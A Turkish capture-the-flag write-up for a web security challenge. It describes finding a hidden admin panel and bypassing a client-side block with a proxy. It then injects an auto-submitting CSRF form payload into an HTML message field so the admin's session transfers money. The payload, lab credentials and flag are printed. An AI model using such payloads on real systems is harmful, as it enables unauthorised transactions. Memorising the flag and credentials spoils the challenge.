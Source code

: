 # Geri Dön Geri Dön

|    |  |
| ------------- |-------------|
| Zorluk        | Çetin (750 puan)|
| Aşama         | Final    |
| Soru Türü     | Web Güvenliği |
| Yazar(lar)    | [İbrahim CAN](http://github.com/cibrx) |

## Soru Metni

> Urbatek firmasında çalışan zigzantares bir anlaşmazlık sonucu işten ayrılmıştır. Firma 100.000₺ olan tazminat borcunu ödememekte ısrar etmektedir. İşte kullanıcının giriş bilgileri:
>
> - **Kullanıcı Adı:** zigzantares  
> - **Parola:** geriDonGeriiiDoonNeolurgeriidoon

---

## Çözüm

Siteye giriş yaptığımızda kullanıcı adı ve parola ile oturum açabileceğimiz bir giriş ekranı görüyoruz. Verilen bilgilerle oturum açtıktan sonra karşımıza iki sekme çıkıyor:

- **Ana Sayfa**
- **Profil**


Ana sayfada "Admine Mesaj Gönder" adlı bir form yer alıyor. Bu form sayesinde admin kullanıcıya mesaj gönderebiliyoruz. İlginç olan, bu form HTML içerik kabul ediyor. Bu da XSS veya CSRF gibi açıklar için bir alan oluşturuyor.

Sayfanın kaynak kodunu incelediğimizde şu tarz bir yorum satırı görüyoruz:

```html
<!-- admin panel: http://soru.bayraksende.com:1453/admin -->
```

Bu adresi ziyaret ettiğimizde panel kısa bir süre görünüyor ve ardından "Yetkisiz Erişim" uyarısı çıkıyor.
Bu, sadece yetkili kullanıcıların bu sayfaya erişebildiğini gösteriyor.
Ancak bir proxy (ör. Burp Suite) yardımıyla sayfanın tam HTML içeriğini analiz edebiliyoruz.

Proxy üzerinden eriştiğimiz admin panelinde şöyle bir form bulunuyor:

```html
<form id="sendMoneyForm" class="send-money-form" action="/api/para-gonder" method="POST">
    <input type="number" name="id" placeholder="id" value="1">
    <input type="number" name="bakiye" placeholder="bakiye" value="100000">
    <button type="submit">Gönder</button>
</form>

```
Bu form, /api/para-gonder adresine POST isteği gönderiyor. Ancak biz kendi hesabımızdan bu isteği göndermeye çalıştığımızda "Yetkisiz" hatası alıyoruz. Yani bu endpoint sadece admin kullanıcılar tarafından kullanılabiliyor.
Cookie’leri incelediğimizde HttpOnly: true olarak ayarlandığını görüyoruz. Bu, XSS ile oturum bilgilerini çalmayı engelliyor.
Ancak mesaj formu HTML kabul ettiği için, burada CSRF saldırısı gerçekleştirebiliriz.

### CSRF Payload'u

Admin panelindeki formu kopyalayıp otomatik olarak submit olacak şekilde şu payload'u hazırlıyoruz:
```
<form id="sendMoneyForm" action="/api/para-gonder" method="POST">
    <input type="hidden" name="id" value="1"> <!-- bizim kullanıcı ID'miz -->
    <input type="hidden" name="bakiye" value="100000"> <!-- gönderilmesini istediğimiz bakiye -->
</form>
<script>
    document.getElementById("sendMoneyForm").submit();
</script>
```

Bu formu "Admine Mesaj Gönder" alanına HTML olarak yapıştırıyoruz. Böylece admin mesajı görüntülediği anda form arka planda gönderiliyor. Admin’in oturum bilgileriyle bize 100.000₺ aktarılıyor.

Profil sayfasına tekrar döndüğümüzde, hesabımızda 100.000₺ olduğunu görüyoruz.


## Flag

```
BayrakBende{B4yr4kB3nd34dm1nl3r1TumL1nkl3r3T1kl1y0r}
```
